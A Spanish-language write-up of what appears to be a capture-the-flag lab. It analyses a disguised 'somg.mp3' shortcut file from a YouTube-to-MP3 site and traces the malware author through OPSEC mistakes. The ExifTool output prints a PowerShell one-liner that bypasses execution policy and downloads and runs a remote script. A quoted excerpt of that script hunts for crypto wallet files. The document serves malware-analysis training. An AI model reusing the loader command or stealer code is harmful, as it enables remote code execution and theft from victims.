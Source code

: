 ![image](https://github.com/user-attachments/assets/e4ad0c23-c4c8-4cc0-8735-13708bcfad6e)# Introducción 

Los dedos de McSkidy revoloteaban sobre el teclado y entrecerraba los ojos al ver el sitio web sospechoso que aparecía en su pantalla. Había visto docenas de campañas de malware como esta. Esta vez, el rastro la llevaba directamente a alguien que respondía al nombre "Glitch".

"Demasiado fácil", murmuró con una sonrisa burlona.

"Todavía tengo tiempo", dijo, inclinándose más cerca de la pantalla. "Tal vez haya más".

Lo que no sabía es que debajo de la superficie se escondía algo mucho más complejo que el simple nombre de usuario de un hacker. Este era solo el comienzo de una red enredada que desenredaba todo lo que creía saber.

# Objetivos de aprendizaje

- Aprender como investigar archivos maliciosos
- Aprender sobre OPSEC y fallos de OPSEC
- Entender como traquear y atribuir digitalmente identidades

# Investigar la web

La web que investigamos convierte los videos de youtube en MP3 deberemos meternos mas dentro y explorarla

![image](https://github.com/user-attachments/assets/c81c5638-a5fa-42c9-9128-ae5e2810f58a)

Este tipo de webs llevan mucho tiempo, ofrece una fomra de convertir a extracto de audio los videos de youtube siendo websites muy populares

Problemas:

- Malversación: Muchos sitios contienen anuncion que explotan vulnerabilidades de usuario
- Phishing Scam
- Bundled Malware

Vamos a coger un link de youtube y vamos a descargarlo una veez lo investigaremos.

 https://www.youtube.com/watch?v=dQw4w9WgXcQ

 ![image](https://github.com/user-attachments/assets/22243695-5336-49be-95b6-030635cbe512)

Una vez descargado nos iremos a Downoads y lo extraeremos

![image](https://github.com/user-attachments/assets/a167bb74-4f23-418b-9b7c-08b555e4efd9)

Para determinar el contenido del archivo

```
file song.mp3
```

Como podemos ver es n archivo de audio, nada parece sospechoso. La cosa es que tenemos otro arhcivo parece ser "somg.mp3"

```
file somg.mp3
```
Como vemos en un "MS windows Shortcul" Este archivo se usa para linkearlo con otro archivo o  aplicacion. Pudiendo ejecutar comandos de Windows

Vamos a utilizar Exiftool a ver si encontramos algo chulo

```
exiftool somg.mp3
```

```
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:10 09:59:59+00:00
File Inode Change Date/Time     : 2024:12:10 09:58:24+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```

Como podemos ver hay tenemos los comandos que quiere ejecutar con la power shell

- -ep Bypass -nop : Quita restricciones usuales
- DownloadFIle: Nos descarga un "IS.ps1" de un servidor remoto de una ruta remoto, una vez descargado lo mete y le cambia el nombre

Si visitamos el archivo en cuestión

```

function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

[Output truncated for brevity]
```

El script recolecta información sensible de la victima, como wallets o credenciales guardadas en el navegador

## Buscar el código fuente

Despueés de nuestra investigación, podemos investigar aún más la página analizar el código buscar directorios, etc.

Sin embargo, en esta room lo haremos diferentes. Porque tenemos el codigo dl powershell y lo podemos buscar online o uqe nos de tips para el ejercicio

https://github.com/search?q="Created+by+the+one+and+only+M.M."&type=issues

Vemos una conversación entre los desarrolladores

https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/1

## Introducción a OPSEC

Esto es un caso de fallo de OPSEC, es un termino reconocido para la protección de información sensible.

- Reusar usuarios, email
- Usar metadatos identificables
- Publicar algo en github
- Fallar al usar VPN etc

GG!!


